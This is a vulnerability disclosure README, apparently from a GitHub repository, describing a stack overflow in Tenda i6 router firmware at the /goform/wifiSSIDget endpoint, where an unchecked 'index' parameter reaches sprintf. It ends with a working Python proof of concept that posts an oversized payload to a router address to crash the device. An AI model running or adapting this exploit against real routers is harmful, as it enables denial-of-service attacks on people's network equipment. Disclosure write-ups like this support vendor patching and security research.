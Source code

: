 # Tenda APi6 vV1.0.0.8(3856) Stack Overflow
## Firmware information

Manufacturer's address:https://www.tenda.com.cn/

Firmware download address: https://www.tenda.com.cn/download/detail-2570.html

## Affected Version

<img width="1019" alt="image" src="https://github.com/daodaoshao/vol_tenda_i6_1/assets/9769854/fc20290f-e5e4-4e62-9609-b6077b2df1fc">

##  Vulnerability Details

 Vulnerability Location: /goform/wifiSSIDget

 the length of the ndex parameter is not verified, sprintf can cause stack overflow vulnerability, it can result in dos attacks on routers

 <img width="416" alt="image" src="https://github.com/daodaoshao/vol_tenda_i6_1/assets/9769854/3d553aaa-c697-4ef4-9316-00db720bc121">

The pages of the router 

<img width="416" alt="image" src="https://github.com/daodaoshao/vol_tenda_i6_1/assets/9769854/a9150774-f16b-4550-8864-3abf91eef125">

## POC 

import requests
from pwn import*

ip = "192.168.182.21" 
url = "http://" + ip + "/goform/wifiSSIDget"
print(url)

payload =b'a'*0x3000


cookie = {"Cookie":"user="}
data = {"index": payload,"wl_radio":0}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print("HackAttackSuccess!")

 





